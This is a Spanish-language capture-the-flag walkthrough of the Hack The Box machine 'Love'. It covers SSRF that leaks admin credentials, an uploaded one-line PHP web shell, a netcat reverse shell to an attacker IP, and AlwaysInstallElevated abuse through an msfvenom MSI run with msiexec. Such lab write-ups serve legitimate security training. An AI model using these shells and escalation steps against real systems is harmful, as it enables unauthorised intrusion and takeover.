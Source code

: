 # HTB-Love `10.10.10.239`

*Server Side Request Forgery (SSRF)*

*Exploiting Voting System*

*Abusing AlwaysInstallElevated (msiexec/msi file)*

### Intrusión
Como siempre empezamos con nuestra sentencia nmap

```
nmap -p- --open -sCV -sS --min-rate 5000 -n -Pn -vvv 10.10.10.239 -oN Targeted
```
 
La página web aloja un formulario de voting system

![vote](images/Voting.jpg)

El cual tiene ciertas vulnerabilidades

![searchsploit](images/searchsploit.jpg)

No es vulnerable a SQL Injection, y en este caso el resto de exploits son con autenticación.

Podemos enumerar directorios y no llegaremos a mucha conclusión.

Si enumeramos subdominios con wfuzz, encontramos uno: `staging`

```
wfuzz -c -t 200 --hc=404 --hh=4388 -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
```

![wfuzz](images/wfuzz.jpg)

En ella encontramos un analizador de archivos.

Si introducimos nuestra URL podemos ver que escanea nuestra máquina poniéndonos en escucha

![nuestra](images/nuestra.jpg)

`tcpdump -i tun0`

![tcpdump](images/tcpdump.jpg)

Pero sin embargo no logramos gran cosa partiendo desde aquí, pero llegamos a la conclusión de que lo que hace es leer el contenido del servidor http que hemos creado… vamos a enumerar puertos que tiene abiertos la máquina a los cuales no nos dejaba entrar `(5000, 5986)`

Al escanear el puerto 5000, tenemos cosas interesantes

![creds](images/creds.jpg)

Tenemos credenciales `admin: @LoveIsInTheAir!!!!`

Podemos volver a la página de login e iniciar sesión en /admin/login.php

![admin](images/admin-login.jpg)

Investigando un poco la web, podemos ver que nos permite añadir votantes y adjuntar una imagen, que se sube al directorio /images
Bastante obvio, vamos a subir una Shell cmd de php

```
<?php system($_REQUEST['cmd']); ?>
```

![php](images/shellphp.jpg)
 
![success](images/success.jpg)

En el directorio /images, encontraremos nuestra Shell

![barra](images/barraimages.jpg)
 
Y ya tenemos ejecución de comandos desde la barra de búsqueda.

![ejec](images/ejecucion.jpg)
 
Introducimos una reverse shell de nc para Windows:

```
nc -e cmd 10.10.14.11 443
```

![nc](images/nc.jpg)

Y obtenemos la Shell
 
![shell](images/shell.jpg)
 

### Escalada de Privilegios

Los dos comandos usuales de whoami no nos arrojan mucha información

![whoami](images/whoami.jpg)

Nos vamos a copiar el winpeas

![win1](images/winpeas1.jpg)

![win2](images/winpeas2.jpg)
 
Al Ejecutarlo, encontramos que AlwaysInstallElevated = 1

![allways](images/Allways.jpg)

Vamos a crearnos un payload con msf venom

![msf](images/msfvenom.jpg)

Y lo subimos a la máquina

![subimos](images/subimos.jpg)

Lo ejecutamos con la siguiente sentencia:

```
msiexec /quiet /qn /i reverse.msi
```

![msi](images/msiexec.jpg)

Y poniéndonos en escucha obtenemos una Shell de administrador, pudiendo obtener la root.txt y completar la máquina.

![ncroot](images/ncroot.jpg)
 
 
